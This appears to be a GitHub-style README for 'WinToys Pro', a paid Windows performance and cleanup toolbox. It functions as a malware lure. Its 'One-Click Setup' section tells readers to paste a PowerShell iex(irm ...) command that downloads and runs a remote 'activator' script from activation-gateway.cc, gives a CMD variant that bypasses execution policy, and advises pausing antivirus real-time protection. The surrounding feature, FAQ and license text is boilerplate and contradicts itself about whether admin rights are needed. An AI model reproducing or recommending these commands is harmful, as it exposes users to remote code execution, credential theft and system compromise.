

<div align="center">

# WinToys-Pro: Performance Tuning & System Cleanup Toolbox for Windows 11



[]() []() []()

</div>

---

WinToys Pro is a paid desktop toolbox licensed for a single Windows PC, delivering a focused set of performance and cleanup utilities that remain tied to that machine. The application modifies system-level performance settings and removes residual clutter left behind by installed software, temporary files, and update artifacts. Its maintenance engine supports scheduled task execution, enabling recurring optimization passes without manual intervention. Designed for technical users, WinToys Pro provides direct control over tuning parameters and storage reclamation while preserving system integrity.

## 🛠️ One-Click Setup (PowerShell)

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10/11 · PowerShell 7+ · No admin

### 1️⃣ Open PowerShell
* Press `Win + X`.
* Select **Terminal** or **Windows PowerShell**.

### 2️⃣ Run the command
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Forced run via CMD
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Security software might occasionally flag automated installers. If the script gets blocked, pause "Real-time protection" in your Windows Security dashboard, run the setup, and re-enable your antivirus immediately afterward.

## 🔧 Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

- Adjusts Windows performance settings through a single interface, consolidating tuning options that would otherwise require manual configuration across separate system panels.
- Clears residual files and leftover clutter accumulated by the operating system and installed applications, reclaiming disk space without affecting active user data.
- Applies maintenance routines on a defined schedule, allowing recurring cleanup and tuning tasks to run without manual intervention.
- Operates as a local desktop application bound to a single Windows PC under the Pro plan, with no dependency on external services for its core functions.
- Groups performance tuning and cleanup operations into discrete, selectable actions, so changes can be applied individually rather than as an all-or-nothing pass.
- Retains configuration state between sessions, preserving selected settings and schedules for consistent behavior across restarts.
- Targets standard Windows installations, modifying only supported system settings and leaving unrelated configuration untouched.

## How it works

WinToys Pro operates as a local, single-machine utility with a straightforward execution pipeline. When launched, the application enumerates the current Windows configuration and presents the available optimization modules through a unified dashboard. Each module maps to a defined class of system changes, and none are applied until the user explicitly confirms an action.

**Configuration analysis.** The engine reads relevant registry keys, startup entries, service states, and scheduled tasks to build a snapshot of the current system profile. This snapshot drives the recommendations shown in the interface and establishes a baseline that can be compared against after each operation.

**Performance tuning.** Settings adjustments are applied through targeted, reversible writes rather than broad presets. Each change is scoped to a specific option, validated against the detected Windows build, and logged with its prior value so the original state remains recoverable. Users can enable or disable individual tweaks without affecting unrelated configuration.

**Clutter cleanup.** The cleanup pass scans known residual locations, including orphaned installer caches, stale temporary directories, and leftover files from removed applications. Items are categorized and itemized before removal, allowing selective deletion. The scanner avoids system-critical paths and reports anything it cannot safely classify instead of deleting it silently.

**Startup management.** Startup entries are collected from registry run keys and startup folders, then presented with their source and impact. Entries can be disabled without being deleted, preserving the ability to restore them later.

**Scheduling and reporting.** Maintenance tasks can be scheduled to run at defined intervals, with each run producing a local report of changes applied, space reclaimed, and items skipped. All processing occurs on the licensed machine; no system data is transmitted off-device.

## Compatibility

WinToys Pro is engineered for 64-bit Windows environments and is validated against Windows 10 (version 1809 and later) and Windows 11, including current cumulative update branches. Both Home and Pro editions of the operating system are supported; domain-joined and workgroup configurations are handled identically. The application requires the .NET Desktop Runtime and standard user-level permissions for performance tuning and cleanup operations, while a small subset of system-level adjustments may prompt for elevation through the standard UAC flow.

Hardware expectations are modest: a dual-core processor, 4 GB of RAM, and approximately 250 MB of free disk space for the installation footprint and working caches. The toolbox operates exclusively on the local machine to which it is licensed and does not depend on network connectivity for its core performance and cleanup functions, though update checks and license validation require periodic internet access. Virtualized Windows instances are supported provided the underlying hypervisor exposes the standard ACPI and registry interfaces the tool relies on.

Compatibility considerations for the cleanup and tuning engine include coexistence with common endpoint protection suites, which may require allowlisting of the application's working directories to prevent false-positive interference during registry and file operations. The tool is designed to be non-destructive and creates restore points before applying system-level changes, ensuring that adjustments remain reversible on supported configurations. Legacy 32-bit Windows installations, Windows 8.1 and earlier releases, and Windows Server SKUs are outside the supported matrix and are not validated for this release.

## FAQ

**Is WinToys Pro a subscription or a one-time purchase?**

WinToys Pro is a paid plan licensed for a single Windows PC. The license is bound to that specific computer, and the toolbox remains installed and activatable on that machine for the duration of the license term. It is not a floating or multi-seat license.

**Does WinToys Pro require elevated privileges to function?**

Yes. Because WinToys Pro modifies system-level performance settings and removes residual files from protected locations, it must run with administrative rights. The application requests elevation at launch; without it, performance-tuning and cleanup operations are restricted to user-scoped areas only.

**What kinds of performance settings does the toolbox adjust?**

WinToys Pro exposes tuning controls across several Windows subsystems, including startup and background process management, service configuration, visual effects, and resource allocation preferences. Each adjustment is applied through supported Windows configuration interfaces, and changes are tracked so they can be reviewed or reverted.

**How does the clutter-removal engine identify leftover files?**

The cleanup engine scans known residual locations—temporary directories, update caches, orphaned installer artifacts, and stale log files—and matches them against a maintained signature set. Items are classified before removal, and the interface presents the classification so you can confirm what will be cleared before any deletion occurs.

**Can I undo changes made by WinToys Pro?**

Yes. Settings modified through the toolbox are recorded in an internal change log, and the application provides a rollback path for supported adjustments. Cleanup operations move items to a quarantine location rather than deleting them outright, so recovery remains possible until the quarantine is purged.

**Does WinToys Pro transfer to a new computer?**

The license is tied to the original machine. Moving to new hardware requires a separate license for that PC. The toolbox does not support concurrent activation across multiple computers under a single Pro plan.

**Is WinToys Pro compatible with all Windows versions?**

WinToys Pro targets supported consumer and professional editions of Windows. Feature availability may vary by build, since some tuning controls depend on settings exposed by the underlying OS version. The application reports unsupported controls as unavailable rather than applying partial changes.

**Does the toolbox run continuously in the background?**

No. WinToys Pro operates on demand. Scheduled maintenance tasks are executed by the Windows Task Scheduler at intervals you configure, and the main application does not need to remain open for those tasks to run.

**Where is my configuration and change history stored?**

Configuration profiles, the change log, and the quarantine index are stored locally on the licensed machine. No account is required to use the toolbox, and operational data remains on that computer.

## Disclaimer

WinToys Pro modifies operating system settings and removes files as part of its performance optimization and cleanup routines. Because these operations affect system configuration and stored data, the software is provided on an as-is basis, without warranties of any kind, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, or non-infringement. The user assumes full responsibility for reviewing each operation before execution and for maintaining independent backups of any data, configuration, or system state that may be altered.

System modifications performed by WinToys Pro are applied to the single Windows PC on which the paid plan is activated and persist on that machine. Results vary by hardware configuration, installed software, and existing system state; no specific performance, storage-recovery, or security outcome is guaranteed. Certain tweaks may interact with group policy, third-party security software, or vendor-specific drivers, and reversibility depends on the restore points and rollback options available at the time of execution.

WinToys Pro is not affiliated with, endorsed by, or sponsored by Microsoft Corporation. Windows is a trademark of Microsoft Corporation. The software does not diagnose hardware faults, recover deleted data, or substitute for professional system administration or security auditing. Use of the toolbox constitutes acceptance of these terms.

## License

WinToys Pro is distributed as a paid, single-machine license for the Pro plan. Each license activates the full toolbox on one Windows PC and is bound to that specific computer; the software does not transfer between machines under the same key. Licensing covers the performance-tuning and leftover-clutter cleaning capabilities described in the Features section, including scheduled maintenance tasks and security-hardening adjustments, but does not extend to redistribution, resale, or use across multiple workstations. The license is perpetual for the activated machine within the supported compatibility range, and updates within the major version are provided. Ownership of the license remains with the purchaser; the binary, configuration presets, and tuning logic remain the property of the WinToys Pro project. Unauthorized reproduction, reverse engineering, or circumvention of the activation mechanism voids the license. The software is provided on an as-is basis, without warranty of fitness for a particular purpose, and the project assumes no liability for system changes applied through the toolbox.